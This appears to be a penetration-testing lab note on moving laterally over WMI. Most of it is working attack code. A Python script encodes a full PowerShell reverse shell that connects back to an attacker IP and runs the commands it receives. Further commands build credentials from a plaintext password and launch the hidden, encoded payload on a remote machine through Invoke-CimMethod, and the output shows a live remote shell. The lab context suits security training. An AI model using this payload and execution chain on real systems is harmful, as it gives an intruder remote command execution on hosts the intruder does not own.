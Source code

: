 ###### Spawning a Reverse Shell Instead of Calc

PowerShell Payload (Change IP/ Port to Kali)
```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

Run this python `encoder.py` script & save output to execute on target
```
kali@kali:~$ python3 encode.py
powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAU...
OwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```

Set up nc listener on kali. 

Execute WMI payload with base64 reverse shell 
```
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> $Options = New-CimSessionOption -Protocol DCOM
PS C:\Users\jeff> $Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options

PS C:\Users\jeff> $Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';

PS C:\Users\jeff> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3948           0 192.168.50.73
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname